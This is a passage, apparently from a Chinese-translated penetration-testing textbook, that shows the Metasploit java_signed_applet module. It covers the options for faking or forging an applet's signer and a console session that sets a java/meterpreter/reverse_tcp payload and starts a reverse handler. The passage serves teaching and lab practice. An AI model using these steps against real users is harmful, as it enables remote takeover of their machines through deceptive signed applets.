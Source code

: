```
```

旧版本的 Java 允许我们使用❶所示的`CERTCN`选项，声明小程序由我们选择的任何实体签名。较新的 Java 版本（如 Windows 7 目标系统上安装的版本）会显示签名者未知，除非我们使用受信任的签名证书对小程序进行签名，而我们可以在❷处指定该证书。如果设置了此选项，它将覆盖`CERTCN`选项。如果我们拥有受信任的签名证书，或者我们已经突破了目标系统的证书，我们可以让小程序看起来更合法，但在本示例中我们将保持小程序自签名。

如❸所示，本模块的默认目标是 Windows 系统。然而，如示例 10-19 所示，我们可以使用适用于运行 JRE 的其他平台的有效载荷。

示例 10-19. 使用 Java 有效载荷

```
msf  exploit(java_signed_applet) > **show targets**

Exploit targets:

   Id  Name
   --  ----
  ❶0   Generic (Java Payload)
   1   Windows x86 (Native Payload)
   2   Linux x86 (Native Payload)
   3   Mac OS X PPC (Native Payload)
   4   Mac OS X x86 (Native Payload)

msf  exploit(java_signed_applet) > **set target 0**
target => 0

msf  exploit(java_signed_applet) > **set payload java/meterpreter/reverse_tcp**
payload => java/meterpreter/reverse_tcp

msf  exploit(java_signed_applet) > **set LHOST 192.168.20.9**
LHOST => 192.168.20.9
msf  exploit(java_signed_applet) > **exploit**
[*] Exploit running as background job.

[*] Started reverse handler on 192.168.20.9:4444
[*] Using URL: http://192.168.20.9:80/Dgrz12PY
[*] Server started.
```

与其他 Java 漏洞一样，我们可以将此攻击扩展到多个平台。我们可以将目标更改为 Linux 或 Mac OS，或使用一个 Java 有效载荷❶来同时针对所有平台。

### 注意

与我们的 PDF 示例类似，之前的漏洞攻击已使 Java 处于不良状态，您可能需要在尝试运行小程序之前重新启动 Windows 7。

从您的 Windows 7 目标系统浏览到 Metasploit 服务器，您应该会被提示运行小程序，如图 10-2 所示。安全警告提醒您，如果该小程序是恶意的，它将能够访问系统，并告知您仅在发布者受信的情况下才应运行该应用程序。由于我们没有使用浏览器证书链信任的签名证书，警告会以大字显示发布者未知。这应该会阻止任何人运行恶意小程序，对吧？
